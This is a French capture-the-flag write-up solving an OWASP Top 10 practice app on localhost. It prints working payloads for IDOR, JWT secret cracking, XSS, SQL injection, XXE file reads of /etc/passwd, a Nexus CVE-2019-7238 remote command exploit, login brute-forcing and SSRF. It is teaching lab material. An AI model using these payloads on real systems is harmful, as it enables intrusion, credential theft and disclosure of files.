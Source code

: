 # All solutions

## A01 - Contrôles d'accès défaillants

La page est vulnérable à une Insecure Direct Object Reference (IDOR) car l'ID utilisateur est directement accessible via l'URL sans vérification d'autorisation, l'ID d'utilisateur est le hash MD5 du nom d'utilisateur. Nous pouvons observer dans le code source ce commentaire :

```html
<!--  Si c'est l'administrateur admin_78 alors affiche le panneau de commande -->
```

Nous pouvons donc avoir accès au profil de l'administrateur en modifiant l'ID utilisateur dans l'URL.
Nous obtenons le MD5 de admin_78 : 20541eeb668da7d30c80c56f00726f07

Nous avons donc http://localhost:8042/profile.php?id=20541eeb668da7d30c80c56f00726f07

Nous obtenons le flag.

## A02 - Défaillances cryptographiques

Nous pouvons casser les différents hashs pour obtenir les mots de passe. Soit avec hashcat ou via des sites web comme crackstation.net.

Nous avons le JWT avec un secret faible que nous pouvons trouver :

```bash
git clone https://github.com/wallarm/jwt-secrets.git
hashcat -m 16500 -a 0 jwt_token.txt /jwt-secrets/jwt.secrets.list
```

Nous pouvons obtenir des informations dans le JWT aussi :

```json
{
  "sub": "VulnApp{jW7-iS-sEcUR3}",
  "name": "John Diffol",
  "iat": 1516239022,
  "artefact": "Incal",
  "email": "secret-fbi@yahoo.me",
  "password": "2365047407a61753e467c979bdf219efb9dd3c9c"
}
```

## A03 - Injection

Nous avons une page avec une injection SQL et une XSS. Pour la XSS, nous pouvons tester avec `<script>alert(1)</script>` dans le champ de recherche et cela fonctionne. Nous aurions pu aussi utiliser `"><svg/onload=alert(1)>` ou alors une polyglotte : 
```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
Source : https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

Pour l'injection SQL nous pouvons tester avec SQLmap assez naturellement :
```bash
sqlmap -u "http://localhost:8042/A03.php?username=admin"
sqlmap -u "http://localhost:8042/A03.php?username=admin" --dump
```

Nous pouvons aussi tester avec des injections manuelles :
```sql
http://localhost:8042/A03.php?username=admi%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x71786b6a71%2CJSON_ARRAYAGG%28CONCAT_WS%280x6176666d7877%2Cid%2Cmd5_password%2Cusername%29%29%2C0x717a767171%29%2CNULL%20FROM%20vulnerable_app.users--%20-
```

Nous obtenons le flag.

## A04 - Conception non sécurisée

Nous avons une page de récupération de mot de passe qui n'est pas sécurisée dans sa conception. En effet nous pouvons voir les messages d'erreurs sont trop explicites et donnent des informations sur les utilisateurs. Nous pouvons voir que le message d'erreur nous indique si l'utilisateur existe ou non. Une fois un utilisateur trouvé, en l'occurence `administrateur` nous pouvons récupérer le mot de passe via une question de "sécurité". Nous pouvons choisir la plus simple à trouver. Nous n'avons aucune limite de test donc nous pouvons essayer toutes les villes possibles pour récupérer ensuite le flag. Ici la ville est `Paris` et nous obtenons le flag.

## A05 - Mauvaise configuration de sécurité

Nous avons une page qui parse le XML et qui affiche le contenu. Nous pouvons donc tester une attaque XXE. Nous pouvons tester avec le payload suivant :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
Nous pouvons voir que cela fonctionne.
Nous essayons donc ensuite :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&xxe;</lastName>
 </userInfo>
```
Et nous obtenons le fichier `/etc/passwd`.

Nous pouvons donc obtenir le flag :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/flag_xxe.txt"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&xxe;</lastName>
 </userInfo>
```

## A06 - Composants vulnérables et obsolètes

Le serveur Nexus utilisé est vulnérable à la CVE 2019-7238. Nous pouvons donc l'exploiter avec le script suivant :

```bash
python3 CVE-2019-7238.py http://localhost:8081/ whoami
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/passwd"
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/flag.txt"
```

Nous obtenons le flag.

## A07 - Identification et authentification de mauvaise qualité

Nous pouvons voir que nous avons SAP Connexion, c'est donc une connexion pour un serveur SAP. Nous avons une liste des utilisateurs par défaut ici : https://github.com/danielmiessler/SecLists/blob/master/Usernames/sap-default-usernames.txt
Nous pouvons donc lancer des attaques par force brute sur ces utilisateurs. Nous pouvons utiliser hydra ou des outils de fuzzing pour cela :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -d "username=FUZZ&password=test" http://localhost:8042/login.php
```
Nous pouvons voir que nous avons trouvé un utilisateur via ce fuzzing. Nous pouvons donc lancer une attaque par force brute sur les mots de passe.

Pour les mots de passe nous pouvons utiliser tout d'abord le fichier 10-million-password-list-top-100.txt dans SecLists. Nous pouvons aussi utiliser rockyou.txt.

Nous avons :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -d "username=<USER>&password=FUZZ" http://localhost:8042/login.php
```

Nous obtenons le flag en trouvant le bon utilisateur et le bon mot de passe, ici il faut regarder le nombre de caractères que la page nous renvoie pour savoir si le mot de passe est bon ou non.

## A08 - Manque d'intégrité des données et du logiciel

Repondez à la question pour obtenir le flag.

## A09 - Carence des systèmes de contrôle et de journalisation

Repondez à la question pour obtenir le flag.

## A10 - SSRF (Falsification de requête côté serveur)

Nous pouvons récuperer des pages Web depuis la page A10.php, nous pouvons voir que nous voulons accèder à un flag flag_ssrf.txt mais nous n'avons pas la permission. Nous pouvons donc essayer de récupérer le fichier flag_ssrf.txt via une SSRF. Nous allons donc récupérer le fichier comme ceci :
    
    ```bash
    http://127.0.0.1/flag_ssrf.txt
    http://localhost/flag_ssrf.txt
    ```

Nous obtenons le flag.